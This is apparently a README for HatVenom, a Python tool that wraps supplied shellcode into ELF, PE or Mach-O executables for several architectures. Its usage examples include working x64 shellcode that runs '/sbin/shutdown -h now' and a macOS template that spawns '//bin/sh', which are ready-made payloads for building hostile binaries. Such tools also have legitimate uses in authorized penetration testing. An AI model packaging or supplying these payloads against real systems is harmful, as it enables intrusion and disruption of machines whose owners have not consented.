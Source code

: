 # HatVenom

Powerful payload generation and shellcode injection tool that provides support for common platforms and architectures.

## Features

* Support for most common executable formats like `elf`, `macho`, `pe`.
* Support for most common architectures like `x64`, `x86`, `aarch64`, `armle`, `mipsle`, `mipsbe`.
* Ability to modify shellcode by changing pre-defined offsets.

## How it works

* **1.** First we are preparing provided shellcode for injection, we are setting offsets and formatting opcodes.
* **2.** Next we are generating executable, we taking default format header and magic to create simple template.
(*for Mach-O we are using already prepared templates in templates folder*)
* **3.** Then we are injecting prepared shellcode to generated template.

## CLI examples

```bash
python3 hatvenom.py --format elf --arch x64 --shellcode '\x00'

# With replacing offsets

python3 hatvenom.py --format elf --arch x64 --shellcode '\x00:string:\x00' --offsets string=alena
```

## Python example

```python
from hatvenom import HatVenom

shellcode = (
    b"\x48\x31\xc0\x48\x31\xd2\x50\x6a"
    b"\x77\x66\x68\x6e\x6f\x48\x89\xe3"
    b"\x50\x66\x68\x2d\x68\x48\x89\xe1"
    b"\x50\x49\xb8\x2f\x73\x62\x69\x6e"
    b"\x2f\x2f\x2f\x49\xba\x73\x68\x75"
    b"\x74\x64\x6f\x77\x6e\x41\x52\x41"
    b"\x50\x48\x89\xe7\x52\x53\x51\x57"
    b"\x48\x89\xe6\x48\x83\xc0\x3b\x0f"
    b"\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('elf', 'x64', shellcode)
```

## Replacing offsets

HatVenom allows you to replace offsets in your shellcode, that means that you can create executable files with injected value.

```python
from hatvenom import HatVenom

shellcode = (
    b"\x48\x31\xf6\x56\x48\xbf"
    b":string:"
    b"\x57\x48\x89\xe7\x48\x31"
    b"\xd2\x48\x31\xc0\xb0\x02"
    b"\x48\xc1\xc8\x28\xb0\x3b"
    b"\x0f\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('macho', 'x64', shellcode, {'string':'//bin/sh'})
```

Offsets must be this type `:offset:` or if you want to specify offset type - `:offset:ipv4:`.
